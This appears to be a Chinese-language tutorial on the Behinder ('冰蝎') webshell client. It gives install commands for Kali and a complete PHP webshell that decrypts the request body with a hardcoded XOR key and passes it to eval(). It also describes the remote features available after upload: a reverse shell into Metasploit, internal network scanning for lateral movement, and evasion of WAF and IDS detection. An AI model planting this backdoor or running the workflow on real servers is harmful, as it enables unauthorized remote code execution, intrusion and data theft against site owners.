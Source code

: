 “冰蝎”动态二进制加密网站管理客户端

冰蝎通信过程中使用AES（高级加密算法，对称加密，微信小程序使用此种方法）进行加密，Java和.NET默认支持AES，php中需要开启`openssl`扩展，在V2.0版本后，php环境方式根据服务端支持情况动态选择，使得冰蝎更强大，V3.0中使用预共享密钥，全程无明文交互，给waf、ids设备威胁狩猎带来挑战。

github地址：https://github.com/rebeyond/Behinder
## 在kali中安装

### 运行环境

客户端：jre8+  
服务端：.net 2.0+;php 5.3-7.4;java 6+
### 安装
```
mkdir /usr/local/behinder
cd /usr/local/behinder
wget https://github.com/rebeyond/Behinder/releases/download/Behinder_v4.1%E3%80%90t00ls%E4%B8%93%E7%89%88%E3%80%91/Behinder_v4.1.t00ls.zip
unzip Behinder_v4.1.t00ls.zip

printf '#!/bin/bash\njava -jar /usr/local/behinder/Behinder.jar' > /usr/local/behinder/behinder.sh
chmod +x /usr/local/behinder/behinder.sh
ln -s /usr/local/behinder/behinder.sh /usr/local/bin/behinder
```

- 启动命令：`behinder`
- 手动启动：`java -jar /usr/local/behinder/Behinder.jar`

## 使用

##### 生成webshell

点击传输协议-选择协议名称，修改内容中的关键字后，点击生成服务端

关于密码，我们需要找一个md5加密网站，输入密码后，复制cmd5值小写32位的前16位。

点击生成服务端后，文件存放在`server/default_xor_base64/`

```
<?php  
@error_reporting(0);  
function Decrypt($data)  
{  
    $key="e45e329feb5d925b";   
    $bs="base64_"."decode";  
 $after=$bs($data."");  
 for($i=0;$i<strlen($after);$i++) {  
     $after[$i] = $after[$i]^$key[$i+1&15];   
    }  
    return $after;  
}  
$post=Decrypt(file_get_contents("php://input"));  
@eval($post);  
?>
```

上传连接后，可以使用多种功能：

- 基本信息展示
- 文件管理
- 端口映射
- 反弹shell：可以根据提示配置msf相关信息，然后点击给我连，此时会将会话反弹的msf中
- 内网主机扫描：可以扫描在同一局域网内的设备。从而实现横向渗透


## 官方文档：
#### 功能介绍原文链接：

《利用动态二进制加密实现新型一句话木马之客户端篇》 [https://xz.aliyun.com/t/2799](https://xz.aliyun.com/t/2799)

#### 工作原理原文链接：

《利用动态二进制加密实现新型一句话木马之Java篇》 [https://xz.aliyun.com/t/2744](https://xz.aliyun.com/t/2744)

《利用动态二进制加密实现新型一句话木马之.NET篇》 [https://xz.aliyun.com/t/2758](https://xz.aliyun.com/t/2758)

《利用动态二进制加密实现新型一句话木马之PHP篇》 [https://xz.aliyun.com/t/2774](https://xz.aliyun.com/t/2774)

#### 传输协议原理解析：

《冰蝎v4.0传输协议详解》 [https://mp.weixin.qq.com/s/EwY8if6ed_hZ3nQBiC3o7A](https://mp.weixin.qq.com/s/EwY8if6ed_hZ3nQBiC3o7A)

